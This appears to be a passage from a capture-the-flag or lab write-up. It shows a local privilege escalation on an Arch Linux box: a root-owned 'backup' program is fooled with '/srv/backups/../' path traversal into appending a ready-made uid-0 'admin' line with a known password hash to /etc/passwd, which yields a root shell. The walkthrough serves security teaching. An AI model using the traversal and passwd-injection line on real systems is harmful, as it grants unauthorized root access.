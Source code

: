 Interestingly , we can execute `backup` file even though the file is owned by root.
Let's take a look what this interesting file does.

Running the program shows the below :
```bash
[py@archlinux secret_stuff]$ ./backup
./backup
Enter a line of text to back up: 123
123
Enter a file to append the text to (must be inside the /srv/backups directory): /tmp
/tmp
The file must be inside the /srv/backups directory!
```

 1. The program take in a user input 
 2. Write it to a file which starts at /srv/backups directory. 

But what if point it to /srv/backups directory initially but chain it with directory traversal to point to somewhere else like py home folder?

```bash
[py@archlinux secret_stuff]$ ./backup
./backup
Enter a line of text to back up: 123
123
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../../../../../../home/py/touchme.txt
/srv/backups/../../../../../../../home/py/touchme.txt
[py@archlinux secret_stuff]$ cat /home/py/touchme.txt
cat ../touchme.txt
123
```
Success!

Now that we know that we can write to any file , a common privilege escalation method is to write to /etc/passwd folder which create a user running as root

We can manually add a user "admin" with a password of "password" using the following syntax which home folder points at root. :
```
admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash
```

```bash
[py@archlinux secret_stuff]$ ./backup                                                                                                                           
./backup                                                                                                                                                                  
Enter a line of text to back up: admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash                                                                         
admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash                                                                                                          
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../../../../etc/passwd                                                    
/srv/backups/../../../../../etc/passwd                                                                                                                                    
[py@archlinux secret_stuff]$ su -l admin
su -l admin
Password: password

[root@archlinux ~]# whoami
whoami
root
[root@archlinux ~]# id
id
uid=0(root) gid=0(root) groups=0(root)

```
